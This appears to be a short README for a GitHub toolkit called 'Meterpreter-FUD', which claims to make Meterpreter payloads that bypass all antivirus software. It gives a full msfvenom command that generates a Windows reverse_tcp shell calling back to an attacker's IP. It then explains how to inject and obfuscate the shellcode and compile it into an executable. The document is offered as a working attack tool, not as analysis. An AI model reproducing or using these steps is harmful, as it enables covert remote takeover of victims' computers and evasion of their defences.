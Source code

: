 # Meterpreter-FUD
Toolkit to create a Fud meterpreter, which bypass every Anti-Virus.

The Toolkit has 2 scripts, A shellcode injector and a obfuscator, you have to generate the payload via Metersploit and this command:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=4444 -f python

You put the shellcode into the shellcode.py file, then you run the main.py script and get a fud python script, which you can compile to a exe file



